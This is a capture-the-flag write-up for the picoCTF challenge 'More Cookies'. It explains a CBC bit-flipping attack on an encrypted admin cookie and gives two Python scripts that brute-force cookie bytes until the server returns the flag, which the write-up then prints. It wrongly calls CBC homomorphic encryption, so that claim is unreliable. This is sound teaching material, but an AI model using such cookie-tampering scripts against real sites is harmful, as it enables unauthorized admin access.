 # More Cookies

## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! http://mercury.picoctf.net:25992/

### Solution:
The challenge gives us a link which opens a webpage saying we need to be the admin to view the page. Taking a hint from the name of the challenge we see that we must probably
modify the cookies on the page correctly to make us the admin. Looking at the cookies of the page we see an "auth_name" cookie on it with a double base64 encoded string. Decoding 
the base64 encoded string twice gives us nonsense output of 
```
»h{q;¿a¤ªÐº4®Ë<Í5\ÒÕèTÌ³`	¸üî`U7C']<Q6Dn\û$~ov$ÐîNÐ¦Y(ùüCöü?ß
R x@Ã§¨ê°"
```
so we can rightly assume that it is encoded somehow. Looking at the hints for the challenge we are given this link: https://en.wikipedia.org/wiki/Homomorphic_encryption. 
In addition to this, looking at the capital letters in the description we see "CBC". CBC is a type of homomorphic encryption so we know we are on the right track. Researching
various vulnerabilities in CBC we come across the byte-flipping attack where by changing a byte in the ciphertext we change one byte in the plaintext of the encrypted message.

You can read more about this attack here: https://resources.infosecinstitute.com/topic/cbc-byte-flipping-attack-101-approach/.

From this we can deduce that the cookie looks something like 'admin=0' and we need to change it to 'admin=1'. For this, I wrote a script that changes every byte of the base64 encoded 
cookie to every other possible value for the byte and once the correct one is hit, the request will return the flag:
```python
#CBC bit flipping attack
import requests

s = requests.Session()

response = s.get('http://mercury.picoctf.net:25992/')
cookie = s.cookies['auth_name']
print(s.cookies)
print(cookie)
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

for i in range(0, len(cookie)):
    for alphchar in alphabet:
        newcookie = cookie[:i] + alphchar + cookie[i + 1:]
        print(newcookie)
        cookies_dict = {'auth_name': newcookie}
        print(cookies_dict)
        response = requests.get('http://mercury.picoctf.net:25992/', cookies=cookies_dict)
        print(response.content)
        if 'pico' in response.content:
            exit()
```
As you can see the script simply enumerates over every byte in the cookie, replaces it with every possible character byte it could be, and then makes a request to the url with the
new cookie. After hitting the request with the flag it will exit and show the contents of the webpage that was return with the request with the proper admin cookie. 

I also made a cleaner implementation with the help of my friend that goes as follows:
```python
import requests

# Visualization Tools


def printProgressBar(iteration, total, prefix='', suffix='', decimals=1, length=100, fill='█', printEnd="\r", text=''):
    """
    Call in a loop to create terminal progress bar
    @params:
        iteration   - Required  : current iteration (Int)
        total       - Required  : total iterations (Int)
        prefix      - Optional  : prefix string (Str)
        suffix      - Optional  : suffix string (Str)
        decimals    - Optional  : positive number of decimals in percent complete (Int)
        length      - Optional  : character length of bar (Int)
        fill        - Optional  : bar fill character (Str)
        printEnd    - Optional  : end character (e.g. "\r", "\r\n") (Str)
    """
    percent = ("{0:." + str(decimals) + "f}").format(100 *
                                                     (iteration / float(total)))
    filledLength = int(length * iteration // total)
    bar = fill * filledLength + '-' * (length - filledLength)
    print(f'\r{prefix} |{bar}| {percent}% {suffix}', end=printEnd)
    # Print New Line on Complete
    if iteration == total:
        print()


# CBC bit flipping attack

s = requests.Session()
url = 'http://mercury.picoctf.net:{}/'.format(
    input("Please enter your port number:"))
print("Starting enumeration on {}".format(url))
response = s.get(url)
cookie = s.cookies['auth_name']
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
total = len(cookie)*len(alphabet)
printProgressBar(0, total, prefix='Testing Cookie (0/0):',
                 suffix='Complete', length=50)

for i in range(0, len(cookie)):
    for j, alphchar in enumerate(alphabet):
        newcookie = cookie[:i] + alphchar + cookie[i + 1:]
        curr = i*len(alphabet)+j
        printProgressBar(curr, total, prefix='Testing Cookie ({}/{}):'.format(curr, total),
                         suffix='Index:{} | Letter:{}'.format(i, alphchar), length=50, text=newcookie)
        cookies_dict = {'auth_name': newcookie}
        response = requests.get(
            url, cookies=cookies_dict)
        if "pico" in response.content.decode():
            print(newcookie)
            print("************************")
            print(response.content.decode().split(
                "<code>")[1].split("</code>")[0])
            print("************************")
            exit()
```

It takes a fair amount of time to run and return the flag.

### Flag:
```
picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
```
